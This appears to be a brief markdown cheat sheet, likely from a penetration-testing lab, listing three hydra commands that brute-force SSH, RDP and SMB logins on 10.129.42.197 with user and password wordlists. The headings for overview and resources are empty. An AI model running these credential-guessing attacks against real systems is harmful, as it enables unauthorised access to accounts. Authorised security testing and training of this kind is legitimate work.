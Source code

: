 # Overview



# Resources


# Usage

Bruteforce SSH
```bash
hydra -L user.list -P password.list ssh://10.129.42.197
```

Bruteforce RDP
```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```

Bruteforce SMB
```bash
hydra -L user.list -P password.list smb://10.129.42.197
```
